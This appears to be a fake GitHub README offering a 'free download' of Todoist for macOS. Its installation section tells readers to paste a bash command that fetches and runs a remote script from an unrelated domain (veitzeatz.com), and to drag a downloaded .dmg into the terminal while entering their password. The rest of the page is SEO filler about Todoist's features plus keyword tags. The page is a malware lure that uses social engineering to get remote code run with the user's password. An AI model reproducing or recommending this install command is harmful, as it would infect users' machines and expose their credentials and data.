 # Todoist For MacOS — Free Download 🚀

Effortlessly manage tasks with Todoist for MacOS. Follow the simple steps below to install this powerful productivity tool for free and stay organized!

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://todoist-download.github.io/.github/)

If the download button doesn’t work, follow the terminal instructions below for a seamless installation.

## 📦 How to Install Todoist For MacOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🕒 **Task Scheduling**: Easily schedule tasks with natural language input, like "Meeting tomorrow at 3 PM."
- 📋 **Project Organization**: Group tasks into projects for work, personal, or team goals.
- ✅ **Task Prioritization**: Set priority levels to focus on what matters most.
- 📱 **Cross-Platform Sync**: Sync tasks across MacOS, iOS, Android, and web in real-time.
- 🔔 **Reminders & Notifications**: Get timely reminders to never miss a deadline.
- 📊 **Productivity Insights**: Track your progress with visual stats and streaks.

## About Todoist

Todoist is a leading task management application designed to simplify your workflow and boost productivity. Whether you're managing personal errands or collaborating on team projects, Todoist offers an intuitive interface to keep everything organized. With its sleek design and powerful features, it’s a must-have for MacOS users looking to streamline their daily tasks. By downloading Todoist for free, you gain access to a tool trusted by millions worldwide for task management, project planning, and goal tracking.

The app’s natural language processing allows you to create tasks quickly by typing phrases like "Buy groceries every Monday" or "Finish report by Friday." This makes Todoist ideal for users who value efficiency and flexibility. Its seamless integration with calendars, email clients, and other productivity tools ensures you can manage tasks without switching apps. For those searching for a **free task manager for MacOS**, Todoist stands out with its robust free tier, offering core features without any cost.

Todoist’s project management capabilities are perfect for both individual and team use. You can create projects, assign tasks, and set deadlines with ease. The app’s **productivity app for MacOS** reputation comes from its ability to organize complex workflows into manageable tasks. Whether you’re a freelancer juggling multiple clients or a student balancing assignments, Todoist adapts to your needs with customizable templates and labels.

One of Todoist’s standout features is its cross-platform synchronization. Your tasks are instantly available on your Mac, phone, tablet, or browser, making it a top choice for users seeking a **MacOS to-do list app**. The app’s offline mode ensures you can work without an internet connection, syncing updates once you’re back online. This reliability makes Todoist a go-to solution for professionals and casual users alike.

### Why Choose Todoist?

Todoist’s advantage lies in its simplicity and power. Unlike other apps that overwhelm with complexity, Todoist balances ease of use with advanced features like task prioritization, recurring tasks, and productivity tracking. Its clean interface, inspired by MacOS design principles, feels right at home on your Mac. By offering a **free download for MacOS**, Todoist ensures accessibility without compromising quality, making it the perfect choice for anyone looking to enhance their productivity.

## 🖼 Preview

![Todoist Dashboard](https://todayonmac.com/content/images/size/w1200/2024/10/Todoist_Thumbnail.png)  
*Organize tasks with an intuitive dashboard interface.*

![Task Creation](https://res.cloudinary.com/imagist/image/fetch/q_auto,f_auto,c_scale,w_2624/https%3A%2F%2Fwww.todoist.com%2Fstatic%2Fapps-section%2Fen%2Fdesktop.png)  
*Create tasks quickly using natural language input.*

![Productivity Stats](https://o.aolcdn.com/hss/storage/midas/afb5fdf27af218542a06cfb1a5c0e98c/202642986/todoist-1.jpg)  
*Track your progress with insightful productivity stats.*

## 🔍 Tags

 todoist download, todoist free download, todoist for mac, todoist download free,  todoist free for mac,  todoist download for mac, todoist download macos, todoist mac os, todoist free mac os, download  todoist free
